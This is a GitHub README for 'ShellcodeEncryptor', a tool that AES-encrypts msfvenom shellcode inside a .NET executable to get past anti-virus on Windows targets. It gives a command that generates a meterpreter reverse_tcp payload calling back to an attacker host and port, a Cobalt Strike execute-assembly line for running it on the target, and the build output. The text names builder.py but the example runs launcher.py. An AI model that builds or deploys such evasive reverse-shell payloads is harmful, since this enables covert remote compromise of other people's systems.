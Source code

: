 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

![](https://raw.githubusercontent.com/plackyhacker/ShellcodeEncryptor/master/demo.gif)

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --arch x86 --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

https://github.com/plackyhacker/ShellcodeEncryptor/blob/master/launcher.cs is provided as a referencefor the method used.
Tested with x86 windows/meterpreter/reverse_tcp
